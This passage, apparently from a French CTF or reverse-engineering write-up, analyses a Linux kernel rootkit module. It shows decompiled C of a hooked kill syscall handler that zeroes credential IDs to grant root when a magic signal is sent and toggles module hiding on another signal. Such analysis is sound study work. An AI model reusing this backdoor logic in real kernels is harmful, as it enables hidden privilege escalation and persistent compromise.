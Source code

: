 Cette fonction est appelée lorsque le module est désengagé du kernel, et retire les hooks mis en place. Cela fait sens avec son nom :

> En cosmologie, le Big Crunch ou effondrement terminal1 est un des possibles destins de l'Univers. Il désigne l'effondrement de l'Univers, c'est-à-dire une phase de contraction faisant suite à la phase d'expansion.


#### Fonction "the_sun"

```c
__int64 __fastcall the_sun(const pt_regs *regs)
{
  unsigned __int64 di; // rax
  __int64 v3; // rax

  _fentry__(regs);
  di = regs->di;
  if ( _this_module.num_gpl_syms == (_DWORD)di )
  {
    v3 = prepare_creds();
    if ( !v3 )
      return orig_kill(regs);
    *(_QWORD *)(v3 + 4) = 0LL;
    *(_QWORD *)(v3 + 0xC) = 0LL;
    *(_QWORD *)(v3 + 0x14) = 0LL;
    *(_QWORD *)(v3 + 0x1C) = 0LL;
    commit_creds(v3);
    return orig_kill(regs);
  }
  else
  {
    if ( (_DWORD)di == 9119 )
    {
      if ( hidden )
      {
        if ( hidden == 1 )
          the_day((__int64)regs);
      }
      else
      {
        the_night((__int64)regs);
      }
      return orig_kill(regs);
    }
    if ( (_DWORD)di != 9120 )
      return orig_kill(regs);
    msleep(3000LL);
    return orig_kill(regs);
  }
}
```
